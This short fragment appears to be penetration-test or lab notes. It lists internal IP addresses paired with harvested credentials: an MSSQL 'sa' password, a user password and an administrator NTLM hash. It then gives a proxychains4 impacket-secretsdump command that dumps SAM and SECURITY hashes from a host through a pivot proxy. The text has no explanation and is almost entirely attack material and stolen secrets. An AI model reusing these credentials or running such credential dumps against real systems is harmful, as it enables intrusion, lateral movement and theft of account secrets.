 192.168.x.121;mssql,sa:WhileChirpTuesday218
192.168.x.121;user,joe,Flowers1
172.16.x.11;user,administrator,f1014ac49bae005ee3ece5f47547d185

proxychains4 impacket-secretsdump -system system -sam sam -security security joe@172.16.244.11